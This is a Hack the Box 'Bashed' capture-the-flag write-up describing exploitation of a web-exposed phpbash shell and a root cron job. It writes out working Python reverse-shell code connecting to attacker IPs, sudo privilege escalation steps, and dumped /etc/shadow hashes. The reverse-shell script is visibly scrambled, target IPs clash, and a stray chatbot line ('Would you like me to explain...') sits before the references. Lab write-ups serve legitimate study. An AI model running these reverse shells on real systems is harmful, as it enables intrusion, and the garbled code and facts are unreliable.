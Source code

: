 ```yaml
---
title: "Hack the Box (HTB) - Bashed"
description: "Insecure App & Cronjob Exploit"
date: 2024-08-27 12:00:00 -100
image: /assets/images/HTB - Bashed/Bashed Tumbnail.jpg
categories: [CTF]
tags: [phpbash, cronjob, python]    # TAG names should always be lowercase
---
```


## Enumeration

We'll start by running [AutoRecon](https://github.com/Tib3rius/AutoRecon) against our box at `10.10.10.68`

```bash
sudo autorecon 10.10.10.56
```

Looking at the results, we see the following:

- 80/tcp open http Apache httpd 2.4.18 ((Ubuntu))

Just this Apache web server. Let's take a look

![Inital Web Page](/assets/images/HTB%20-%20Bashed/Inital%20web%20Page.png)

Clicking on `https://github.com/Arrexel/phpbash` link takes us to a github repo

![phpbash](/assets/images/HTB%20-%20Bashed/php%20bash.png)

This is a tool that lets pen testers run terminal commands directly through the web browser (given that they are able to upload `phpbash` to whatever they're trying to pentest) and would be useful in situations where you can't get shell access

Let's check our feroxbuster scan

![Feroxbuster](/assets/images/HTB%20-%20Bashed/php%20bash%20dirbuster.png)

This web server already has phpbash.php installed, we will ironically be using this to pentest this CTF

Running sudo -l shows us the following information

![wwwdata sudo -l](/assets/images/HTB%20-%20Bashed/wwwdata%20sudo%20-l.png)

Before we proceed, I would like to get a proper shell

```bash
# First Start NC
nc -lvnp 1234

# Python reverse shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Rev Shell](/assets/images/HTB%20-%20Bashed/Reverse%20Shell.png)

Let's upgrade our shell

```bash
Python3 -c 'import pty;pty.spawn ("/bin/bash")'

# Background with ctrl + z
stty raw-echo;fg

export TERM=xterm
```

Great, now we have a proper shell with full functionality

Going back  to our sudo -l. We see that we are able to 

- `(scriptmanager : scriptmanager) NOPASSWD: ALL`

Which mean we can run any command as the scriptmanager user without needing a password

We don't technically need to switch to that account, but let's do it anyway

```bash
sudo -u scriptmanager /bin/bash
```

![ScriptManager SU](/assets/images/HTB%20-%20Bashed/Script%20Manager.png)

Looking at the root directory, we see that there's a folder called `scripts`

![Scripts Directory](/assets/images/HTB%20-%20Bashed/Scripts%20Directory.png)

Inside this folder we see two files, `test.py` & `test.txt`

![Scripts](/assets/images/HTB%20-%20Bashed/Scripts.png)

As we can see from the output, `test.py` is a script that's owned by us & simultaneously writing to a file that's owned by root. This suggests test.py is being executed by a process with sufficient privileges (likely root) to write to test.txt


 We can easily modify this script to give us a root shell

```bash
nano test.py
```

```python
import socket
import subprocess
import os

def spawn_shell():
    # Connect to attacker's machine
    attacker_ip = "10.10.14.36"  # Replace with your IP address
    aeate a socket and connect to the attacker's machine
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((attacker_ip, attacker_port))
    ttacker_port = 9002  # Replace with your chosen port
    
    # Cr
    # Redirect stdin, stdout, and stderr to the socket
    os.dup2(s.fileno(), 0)  # stdin
    os.dup2(s.fileno(), 1)  # stdout
    os.dup2(s.fileno(), 2)  # stderr

    # Start a shell
    p = subprocess.call(["/bin/bash", "-i"])

if __name__ == "__main__":
    spawn_shell()
```

Start up nc

```bash
nc -lvnp 9002
```

Sit back and wait!

![Root](/assets/images/HTB%20-%20Bashed/Root%20Bashed.png)

GG, we've rooted Bashed!

## Additional Post Root Fun

#### Finding the crontab that allowed root exploit

```bash
crontab -l
```

![crontab root](/assets/images/HTB%20-%20Bashed/crontab%20root.png)

This scheduled cronjob runs every minute of every hour, week, and month. It changes to /scripts and loops through all files ending in `.py`  and runs each. We could have created any python script in that directory earlier to gain root

#### Checking /etc/shadow

Checking the `/etc/shadow` file gives us the hashes for the users we've discovered in this box

`arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.`

`scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0`

`root:$6$bgp25dyI$G94wQqO8btpDME48280tRVWzBA5nIZPWF2uOI5H6eHOER/nvY/RZOzYv4r51G0ML9dYN/RqjcYPOsaVdpJSBP/`

It looks like these are using different hash algorithms

- arrexel ues MD5 `($1$)`
- scriptmanager and root use SHA-512 `($6$)`

I am going to skip attempting to crack this as I have limited resources on my VM

## Vulnerabilities & Mitigation's

| Vulnerability | Description | Mitigation |
|---------------|-------------|------------|
| PHPBash Vulnerability | PHPBash allows for remote code execution | Remove PHPBash or update to a patched version |
| Cron Job Vulnerability | Cron job allows for execution of arbitrary Python scripts | Restrict cron job to only execute specific, trusted scripts |
| Weak Password Hashing | MD5 and SHA-512 password hashes are used | Use a stronger password hashing algorithm like bcrypt or Argon2 |

Would you like me to explain or break down this markdown table?

### Remediation References

- [NIST SP 800-63B, Section 5.1.1.2 - Memorized Secret ](https://pages.nist.gov/800-63-3/sp800-63b.html)